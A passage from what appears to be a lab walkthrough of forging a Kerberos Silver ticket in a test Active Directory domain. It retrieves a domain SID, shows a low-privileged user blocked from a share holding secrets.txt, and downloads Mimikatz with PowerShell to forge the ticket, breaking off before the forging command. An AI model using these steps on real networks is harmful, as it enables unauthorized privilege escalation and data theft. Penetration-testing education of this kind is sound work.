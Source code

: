 or if we've already an access to machine (eg. reverse shell) we can execute `whoami /user` (excluding the last 4 chars, eg. `-500`): `S-1-5-21-1954621190-1971745961-1283776715`

<pre class="language-powershell"><code class="lang-powershell"><strong>User Name                  SID
</strong>========================== =============================================
dev-angelist\administrator S-1-5-21-1954621190-1971745961-1283776715-500
</code></pre>

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

### 3 - Forge the Silver ticket

Actually, we've all info needed to forge the Silver ticket.\
Let's assume we've a low privileged access to a workstation joined into the domain, in my case i log into: `dev-angelist\devan`'s account.

```powershell
whoami
hostname
dir \\corp-dc.dev-angelist.lab\SharedFiles
```

and consider that there's a SMB share at `corp-dc.dev-angelist.lab/SharedFiles` which contains a file named secrets.txt, we aren't able to access it:&#x20;

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Let's download Mimikatz on our devan's machine to generate a new Silver ticket which give us access to Shared folder with administrative right:

Download and extract Mimikatz:

```powershell
iwr -uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
Expand-Archive -Path 'mimikatz_trunk.zip'
cd .\mimikatz_trunk\
#Win32 Folder in this case, because this machine is 32bit
```

Generate a Silver ticket (kerberos::golden regards Silver ticket in this case), the command below contain all requirements needed:
